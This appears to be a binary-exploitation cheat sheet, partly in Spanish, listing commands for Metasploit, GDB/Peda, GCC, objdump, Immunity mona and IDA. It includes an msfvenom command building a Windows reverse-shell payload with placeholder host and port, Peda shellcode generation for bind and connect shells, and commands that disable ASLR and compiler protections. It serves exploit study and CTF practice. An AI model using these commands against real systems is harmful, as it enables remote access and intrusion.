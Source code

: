 # Exploiting Tools

## Metasploit

```text
pattern_create.rb -l 3000   #Length
pattern_offset.rb -l 3000 -q 5f97d534   #Search offset
nasm_shell.rb
nasm> jmp esp   #Get opcodes
msfelfscan -j esi /opt/fusion/bin/level01
```

### Shellcodes

```text
msfvenom /p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> [EXITFUNC=thread] [-e x86/shikata_ga_nai] -b "\x00\x0a\x0d" -f c
```

## GDB

### Install:

apt-get install gdb

### Parameters:

**-q** --&gt; No muestra mierda inicial al ejecutar gdb  
**-x &lt;file&gt;** --&gt; le pasas un archivo con instrucciones de gdb que ejecutará al inicio  
**-p &lt;pid&gt;** --&gt; Attach to process

#### Instructions

&gt; **disassemble main** --&gt; Dissasemble the function  
&gt; **disassemble 0x12345678**  
&gt; **set disassembly-flavor intel**  
&gt; **set follow-fork-mode child/parent** --&gt; Follow created process  
&gt; **p system** --&gt; Find the address of the system function  
&gt; **help**  
&gt; **quit**

&gt; **br func** --&gt; Add breakpoint to function  
&gt; **br \*func+23**  
&gt; **br \*0x12345678  
&gt; del NUM** --&gt; Delete that number of br  
&gt; **watch EXPRESSION** --&gt; Break if the value changes

**&gt; run** --&gt; Execute  
**&gt; start** --&gt; Start and break in main  
&gt; **n/next** --&gt; Execute next instruction \(no inside\)  
&gt; **s/step** --&gt; Execute next instruction  
&gt; **c/continue** --&gt; Continue until next breakpoint

&gt; **set $eip = 0x12345678** --&gt; Change value of $eip  
&gt; **info functions** --&gt; Info abount functions  
&gt; **info functions func** --&gt; Info of the funtion  
&gt; **info registers** --&gt; Value of the registers  
&gt; **bt** --&gt; Stack  
&gt; **bt full** --&gt; Detailed stack

&gt; **print variable**  
&gt; **print 0x87654321 - 0x12345678** --&gt; Caculate  
&gt; **examine o/x/u/t/i/s dir\_mem/reg/puntero** --&gt; Shows content in octal/hexa/10/bin/instruction/ascii

* **x/o 0xDir\_hex**
* **x/2x $eip** --&gt; 2Words from EIP
* **x/2x $eip -4** --&gt;  $eip - 4
* **x/8xb $eip** --&gt; 8  bytes \(b-&gt; byte, h-&gt; 2bytes, w-&gt; 4bytes, g-&gt; 8bytes\)
* **i r eip** --&gt; Value of $eip
* **x/w pointer** --&gt; Value of the pointer
* **x/s pointer** --&gt; String pointed by the pointer
* **x/xw &pointer** --&gt; Address where the poiniter is located
* **x/i $eip** —&gt; Instructions of the EIP

### Peda

**shellcode generate** x86/linux bindport 5555 127.0.0.1  
**shellcode generate** x86/linux connect 5555 127.0.0.1  
**checksec** --&gt; Check protections  
**searchmem /bin/sh** --&gt; Find that string \(/bin/sh\) inside the memory

### GDB server

gdbserver --multi 0.0.0.0:23947 \(in IDA you have to fill the absolute path of the executable in the Linux machine and in the Windows machine\)

## GCC

**gcc -fno-stack-protector -D\_FORTIFY\_SOURCE=0 -z norelro -z execstack 1.2.c -o 1.2** --&gt; Compile without protections  
**-o** --&gt; Output  
**-g** --&gt; Save code \(GDB will be able to see it\)  
**echo 0 &gt; /proc/sys/kernel/randomize\_va\_space** --&gt; To deactivate the ASLR in linux

**To compile a shellcode:  
nasm -f elf assembly.asm** --&gt; return a ".o"  
**ld assembly.o -o shellcodeout** --&gt; Executable

## Objdump

**-d** --&gt; Disassemble executable sections \(see opcodes of a compiled shellcode, find ROP Gadgets, find function address...\)  
**-Mintel** --&gt; Intel sintax  
**-t** --&gt; Symbols table \(grep varBSS to get the address\)  
**-D** --&gt; Disassemble all \(address of static variable\)  
**-s -j .dtors** --&gt; Contenido de dtors  
**-s -j .got** --&gt; Contenido de got  
**-TR** --&gt; Relocations  
**ojdump -t --dynamic-relo ./exec \| grep puts** --&gt; Address of "puts" to modify in GOT  
**objdump -TR ./exec \| grep exit\(func lib\)** —&gt; Get address of all the functions inside the GOT

## Core dumps

1. Run `ulimit -c unlimited` before starting my program
2. Run `sudo sysctl -w kernel.core_pattern=/tmp/core-%e.%p.%h.%t`
3. sudo gdb --core=&lt;path/core&gt; --quiet

## More

**ldd executable \| grep libc.so.6** --&gt; Address \(if ASLR, then this change every time\)  
**for i in \`seq 0 20\`; do ldd &lt;Ejecutable&gt; \| grep libc; done** --&gt; Loop to see if the address changes a lot  
**readelf -s /lib/i386-linux-gnu/libc.so.6 \| grep system** --&gt; Offset of "system"  
**strings -a -t x /lib/i386-linux-gnu/libc.so.6 \| grep /bin/sh** --&gt; Offset of "/bin/sh"

**strace executable** --&gt; Functions called by the executable  
**rabin2 -i ejecutable --&gt;** Address of all the functions

**/usr/share/metasploit-framework/tools/exploit/pattern\_create.rb --length 1000  
/usr/share/metasploit-framework/tools/exploit/pattern\_offset.rb --length 1000 --query 1Ad2**

## **Inmunity debugger**

```text
!mona modules    #Get protections, look for all false except last one (Dll of SO)
!mona find -s "\xff\xe4" -m name_unsecure.dll   #Search for opcodes insie dll space (JMP ESP)
```

## IDA

### Debugging in remote linux

Inside the IDA folder you can find binaries that can be used to debug a binary inside a linux. To do so move the binary _linux\_server_ or _linux\_server64_ inside the linux server and run it nside the folder that contains the binary:

```text
./linux_server64 -Ppass
```

Then, configure the debugger: Debugger \(linux remote\) --&gt; Proccess options...:

![](../../.gitbook/assets/image%20%28112%29.png)

### **Delphi binaries**

I you have to reverse a Delphi binary I would suggest you tu use the IDA plugin [https://github.com/Coldzer0/IDA-For-Delphi](https://github.com/Coldzer0/IDA-For-Delphi)\*\*\*\*

Just press **ATL+f7** \(import python plugin in IDA\) and select the python plugin.

This plugin will execute the binary and resolve functoin names dynamically att the start of the debugging. After starting the debugging press again the Start button \(the green one or f9\) and a breakpoint will hit in the begining of the real code.

It is also very interesting because if you press a boton in the graphic application the debugger will stop in the function executed by that bottom.

### Golang binaries

I you have to reverse a Golang binary I would suggest you tu use the IDA plugin [https://github.com/sibears/IDAGolangHelper](https://github.com/sibears/IDAGolangHelper)

Just press **ATL+f7** \(import python plugin in IDA\) and select the python plugin.

This will resolve the names of the functions.

